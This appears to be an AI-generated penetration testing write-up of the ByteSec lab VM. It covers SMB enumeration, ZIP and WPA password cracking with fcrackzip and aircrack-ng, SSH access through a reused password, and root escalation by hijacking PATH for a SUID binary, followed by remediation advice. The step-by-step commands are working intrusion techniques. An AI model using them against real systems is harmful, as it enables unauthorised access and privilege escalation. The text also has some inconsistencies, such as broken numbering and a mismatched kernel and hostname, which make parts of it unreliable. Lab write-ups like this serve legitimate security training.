

Thought for 1 second### ByteSec Penetration Testing Report - Detailed Analysis

## 1. Reconnaissance Phase - Detailed Breakdown

### 1.1 Network Scanning

The initial Nmap scan revealed four open ports. Let's analyze each service in detail:

```bash
nmap -sV -sC -p- bytesec.vh -oN initial.nmap -v
```

| Port | Service | Version | Analysis
|-----|-----|-----|-----
| 80/tcp | HTTP | Apache httpd 2.4.18 (Ubuntu) | Older version of Apache with potential vulnerabilities
| 139/tcp | NetBIOS-SSN | Samba smbd 3.X - 4.X | NetBIOS service indicating Windows file sharing capabilities
| 445/tcp | NetBIOS-SSN | Samba smbd 4.3.11-Ubuntu | SMB service for file sharing, potentially misconfigured
| 2525/tcp | SSH | OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 | Non-standard SSH port (usually 22), older version with potential vulnerabilities


The SSH service running on a non-standard port (2525) indicates possible security through obscurity, which is not a robust security measure.

### 1.2 Web Application Enumeration

Gobuster revealed several directories on the web server:

```bash
gobuster dir -u http://bytesec.vh -w /usr/share/wordlists/dirb/big.txt
```

The discovered directories (/css, /gallery, /html, /img, /js, /news) suggest a standard web application structure. The 403 Forbidden responses for /.htaccess and /.htpasswd indicate proper server configuration for these sensitive files.

### 1.3 SMB Enumeration - Technical Details

Using enum4linux to gather detailed information about the SMB service:

```bash
enum4linux -a bytesec.vh
```

Key findings from enum4linux:

- Workgroup: WORKGROUP
- Operating System: Ubuntu
- SMB Version: 4.3.11-Ubuntu
- Domain: WORKGROUP
- Users identified:

- S-1-22-1-1000 Unix User\sagar (Local User)
- S-1-22-1-1001 Unix User\blackjax (Local User)
- S-1-22-1-1002 Unix User\smb (Local User)

The SID enumeration (S-1-22-1-XXXX) indicates these are local Unix users mapped to the SMB service.

## 2. SMB Exploitation - In-Depth Analysis

### 2.1 SMB Authentication Testing

Attempted authentication with each discovered user:

```bash
smbclient -L //bytesec.vh -U sagar
smbclient -L //bytesec.vh -U blackjax
smbclient -L //bytesec.vh -U smb
```

Only the 'smb' user allowed authentication without a password, indicating a significant security misconfiguration. This violates the principle of requiring authentication for all network services.

### 2.2 SMB Share Access

Connected to the SMB share with the vulnerable user:

```bash
smbclient //bytesec.vh/smb -U smb -p
```

![[Pasted image 20250401151928.png]]

The directory listing revealed:

- main.txt (10 bytes)
- safe.zip (3424907 bytes)


The presence of a ZIP file on an SMB share suggests poor security practices, as sensitive data should not be stored in network-accessible locations.

### 2.3 ZIP Password Cracking - Technical Analysis

The safe.zip file was password-protected. Using fcrackzip with dictionary attack:

```bash
fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u safe.zip
```

The password "hacker1smb" was discovered, which exhibits poor password practices:

1. Contains the username ("smb") within the password
2. Uses a predictable pattern ("hacker1" + username)
3. Available in common password dictionaries


This indicates inadequate password policies and security awareness.

## 3. Wireless Capture Analysis - Technical Details

### 3.1 Packet Capture Examination

The extracted ZIP contained:

- secret.jpg (an image with no embedded data)
- user.cap (a wireless packet capture file)


Analysis of user.cap with Wireshark revealed:

- Protocol: IEEE 802.11 (WiFi)
- Numerous deauthentication packets (indicating a potential deauth attack)
- EAPOL handshake packets (4-way handshake for WPA/WPA2)
- BSSID: 56:DC:1D:19:52:BC
- ESSID: blackjax


The presence of deauthentication packets and EAPOL handshakes indicates this capture was likely created during a deliberate WiFi password capture attack.

### 3.2 WPA Handshake Cracking - Detailed Process

Using aircrack-ng to crack the captured handshake:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt user.cap
```

![[Pasted image 20250401151858.png]]

Technical details from the aircrack output:

- 83800/7120712 keys tested (5232.31 k/s)
- WPA key found: snowflake
- Master Key: 8B A6 3F 95 1C E3 00 CA 30 C2 6E 63 59 61 35 42 AB F7 73 5C D7 AD 3A 10 DB 21 51 64 DC 59 C6 8F
- Transient Key and EAPOL HMAC values were also recovered

The password "**snowflake**" is:

1. A common dictionary word
2. Only 9 characters long
3. Contains no special characters or numbers
4. Easily crackable with dictionary attacks


This represents a significant weakness in wireless security implementation.

## 4. Initial Access - SSH Exploitation

### 4.1 SSH Authentication

Using the discovered credentials to access SSH on the non-standard port:

```bash
ssh blackjax@bytesec.vh -p 2525
```

The successful authentication with the WiFi password indicates password reuse across different systems - a critical security weakness. This demonstrates how credential reuse can lead to lateral movement within an environment.

### 4.2 System Enumeration

After gaining access, system enumeration was performed:

```bash
uname -a
# Linux nitin 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/issue
# Ubuntu 16.04.6 LTS

id
# uid=1001(blackjax) gid=1001(blackjax) groups=1001(blackjax)
```

The system was running Ubuntu 16.04.6 LTS with kernel 4.15.0-72-generic, which has multiple known vulnerabilities.

## 5. Privilege Escalation - Detailed Technical Analysis

### 5.1 SUID Binary Discovery

A thorough search for privilege escalation vectors was conducted:

```bash
find / -perm -u=s -type f 2>/dev/null
```

This revealed an unusual SUID binary:

```plaintext
-rwsr-xr-x 1 root root 7432 Nov 4 20:00 /usr/bin/netscan
```

The SUID bit (s) in the permissions indicates this binary runs with the privileges of its owner (root) regardless of who executes it.

### 5.2 Binary Analysis

Analyzing the binary behavior:

```bash
strings /usr/bin/netscan
# Output included references to "netstat" without a full path
```

```bash
ltrace /usr/bin/netscan
# Showed the binary executing "netstat" via system() call
```

The binary was executing the `netstat` command without specifying an absolute path, making it vulnerable to PATH manipulation attacks.

### 5.3 Exploitation Technique - PATH Manipulation

The vulnerability was exploited through the following steps:

1. Created a malicious netstat file:


```bash
echo "#!/bin/sh" > /tmp/netstat
echo "/bin/sh" >> /tmp/netstat
chmod +x /tmp/netstat
```

2. Modified the PATH environment variable to prioritize /tmp:


```bash
export PATH=/tmp:$PATH
```

3. Executed the vulnerable SUID binary:


```bash
/usr/bin/netscan
```

![[Pasted image 20250401151821.png]]


This exploitation succeeded because:

1. The binary used a relative path to execute netstat
2. The binary inherited the user's PATH environment variable
3. The binary had the SUID bit set, allowing it to run with root privileges


### 5.4 Root Access Verification

After exploitation, full root access was confirmed:

```bash
id
# uid=0(root) gid=0(root) groups=0(root),1001(blackjax)

cat /root/root.txt
# MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

## 6. Vulnerability Analysis - Technical Details

### 6.1 SMB Misconfiguration (CVE-N/A)

**Severity: High**

The SMB service allowed anonymous access to the 'smb' share without requiring a password. This violates security best practices that require authentication for all network services.

**Technical Impact:**

- Unauthorized access to potentially sensitive files
- Initial foothold for further system compromise
- Information disclosure


**CVSS Score Estimate: 7.5 (High)**

### 6.2 Weak Password Practices (CVE-N/A)

**Severity: High**

Multiple instances of weak passwords were discovered:

- ZIP file password: "hacker1smb" (contains username, predictable pattern)
- WiFi password: "snowflake" (common dictionary word)
- Password reuse between WiFi and SSH authentication


**Technical Impact:**

- Susceptibility to dictionary and brute force attacks
- Credential compromise leading to unauthorized access
- Lateral movement through password reuse


**CVSS Score Estimate: 8.0 (High)**

### 6.3 SUID Binary PATH Manipulation (CVE-N/A)

**Severity: Critical**

The custom SUID binary `/usr/bin/netscan` executed commands using relative paths, making it vulnerable to PATH manipulation attacks.

**Technical Impact:**

- Complete system compromise (root access)
- Ability to execute arbitrary commands with root privileges
- Full control over the target system


**CVSS Score Estimate: 9.8 (Critical)**

## 7. Detailed Remediation Recommendations

### 7.1 SMB Security Hardening

1. **Implement Proper Authentication:**

```bash
# Edit /etc/samba/smb.conf
[global]
security = user
map to guest = never
```


2. **Restrict Share Access:**

```bash
# Edit /etc/samba/smb.conf
[smb]
path = /path/to/share
valid users = @smbgroup
read only = no
browseable = yes
```


3. **Implement SMB Encryption:**

```bash
# Edit /etc/samba/smb.conf
[global]
smb encrypt = required
```


### 7.2 Password Policy Implementation

1. **Enforce Strong Password Requirements:**

```bash
# Install and configure libpam-pwquality
apt-get install libpam-pwquality

# Edit /etc/security/pwquality.conf
minlen = 12
minclass = 3
maxrepeat = 2
gecoscheck = 1
dictcheck = 1
```


2. **Implement Password Aging:**

```bash
# Edit /etc/login.defs
PASS_MAX_DAYS   90
PASS_MIN_DAYS   1
PASS_WARN_AGE   7
```

### 7.3 SUID Binary Security

1. **Fix the Vulnerable Binary:**

```c
// Modified netscan.c code
#include <stdlib.h>
#include <stdio.h>

int main() {
    setuid(0);
    // Use absolute path instead of relative path
    system("/bin/netstat -tuln");
    return 0;
}
```


2. **Implement Proper Path Handling:**
3. Always use absolute paths in SUID binaries
4. Clear environment variables before executing commands
5. Consider using execve() instead of system()
6. **Regular SUID Binary Auditing:**

```bash
# Create a baseline of SUID binaries
find / -perm -4000 -type f > /root/suid_baseline.txt

# Create a cron job to check for new SUID binaries
echo "0 1 * * * find / -perm -4000 -type f | diff /root/suid_baseline.txt - | mail -s 'SUID binary changes' admin@example.com" > /etc/cron.d/suid-audit
```

## 8. Attack Chain Visualization



## 9. Timeline of Attack

| Time | Action | Description|
|-----|-----|-----|-----|
| T+00:00 | Reconnaissance | Initial port scanning and service enumeration
| T+00:10 | SMB Enumeration | Discovery of users and anonymous access
| T+00:15 | File Extraction | Downloaded safe.zip from SMB share
| T+00:20 | Password Cracking | Cracked ZIP password (hacker1smb)
| T+00:25 | File Analysis | Extracted and analyzed user.cap
| T+00:35 | WPA Cracking | Cracked WiFi password (snowflake)
| T+00:40 | Initial Access | SSH access as blackjax user
| T+00:50 | Privilege Escalation | Discovered and exploited SUID binary
| T+00:55 | Root Access | Obtained full system control
| T+01:00 | Documentation | Documented findings and attack path

## 10. Technical Lessons Learned

1. **Path Handling in SUID Binaries:**
The primary vulnerability stemmed from improper path handling in a SUID binary. When developing SUID binaries, always:
2. Use absolute paths for all external commands
3. Sanitize environment variables
4. Consider dropping privileges when not needed
5. Use safer alternatives to system() like execve()
6. **Defense in Depth Failure:**
This system demonstrated a failure of defense in depth principles:

7. Network services allowed anonymous access
8. Sensitive data was stored in accessible locations
9. Weak passwords were used across multiple systems
10. SUID binaries were not properly audited
11. **Credential Management:**
Password reuse between the WiFi network and user account demonstrates how credential compromise in one system can lead to compromise of another, emphasizing the importance of unique credentials for each system.
## Conclusion

The ByteSec system exhibited multiple critical security vulnerabilities that, when chained together, allowed for complete system compromise. The attack path demonstrates how seemingly minor issues (anonymous SMB access, weak passwords) can be combined with more serious vulnerabilities (SUID binary misconfigurations) to achieve full system control.

The most critical finding was the SUID binary vulnerability, which highlights the importance of proper secure coding practices when developing privileged applications. This penetration test emphasizes the need for a comprehensive security approach that addresses authentication, authorization, secure coding, and system hardening.

## About BlueKeep

![[Pasted image 20250401152059.png]]

Regarding the question about **BlueKeep** vulnerability: Based on the port scan results, this system does not appear to be vulnerable to BlueKeep. BlueKeep (CVE-2019-0708) is a vulnerability in Microsoft's Remote Desktop Protocol (RDP) service, which typically runs on port 3389. Since no RDP service was detected on this Linux-based system, it is not susceptible to the BlueKeep vulnerability.